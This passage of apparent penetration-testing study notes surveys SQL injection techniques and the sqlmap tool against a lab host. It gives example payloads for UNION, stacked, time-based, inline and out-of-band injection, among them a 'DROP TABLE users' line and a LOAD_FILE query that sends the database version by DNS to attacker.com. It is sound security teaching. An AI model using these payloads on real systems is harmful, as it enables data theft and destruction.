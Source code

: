 #### UNION Query-based SQL Injection

- Example: `UNION ALL SELECT 1,@@version,3`
- Merges query results with injected statements.
- Fastest SQLi type.

#### Stacked Queries

- Example: `; DROP TABLE users`
- Executes multiple SQL statements in one query.
- Requires platform support (e.g., Microsoft SQL Server).

#### Time-based Blind SQL Injection

- Example: `AND 1=IF(2>1,SLEEP(5),0)`
- Differentiates TRUE/FALSE results using response times.
- Slower than Boolean-based SQLi.

#### Inline Queries

- Example: `SELECT (SELECT @@version) FROM`
- Embeds queries within original queries.
- Rare but supported.

#### Out-of-band SQL Injection

- Example: `LOAD_FILE(CONCAT('\\',@@version,'.attacker.com\README.txt'))`
- Uses alternative communication channels like DNS exfiltration.
- Useful when other types are too slow or unsupported.

## Example Usage

Run SQLMap on a vulnerable URL:
```bash
python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'
```

### Output:
```bash
[INFO] testing if GET parameter 'id' is dynamic
[INFO] GET parameter 'id' is dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[INFO] testing for SQL injection on GET parameter 'id'
...SNIP...
```

### Techniques:
List SQLi techniques with:
```bash
sqlmap -hh
```
Techniques include:
- **B**: Boolean-based blind
- **E**: Error-based
- **U**: Union query-based
- **S**: Stacked queries
- **T**: Time-based blind
- **Q**: Inline queries
